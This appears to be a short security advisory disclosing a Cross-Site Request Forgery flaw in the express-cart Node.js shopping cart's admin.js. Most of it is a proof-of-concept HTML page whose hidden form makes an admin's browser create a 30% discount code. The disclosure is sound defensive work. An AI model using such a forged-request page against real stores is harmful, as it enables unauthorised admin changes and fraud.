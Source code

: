 # Overview

express-cart is a fully functional shopping cart built in Node.js (Express, MongoDB) with Stripe, PayPal and Authorize.net payments.

This package is vulnerable to Cross-Site Request Forgery (CSRF) through `admin.js`.

# Proof of Concept

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost:1111/admin/settings/discount/create" method="POST">
      <input type="hidden" name="code" value="CSRF&#45;CODE&#45;DEMO" />
      <input type="hidden" name="type" value="percent" />
      <input type="hidden" name="value" value="30" />
      <input type="hidden" name="start" value="21&#47;02&#47;2020&#32;14&#58;32" />
      <input type="hidden" name="end" value="22&#47;02&#47;2020&#32;14&#58;32" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
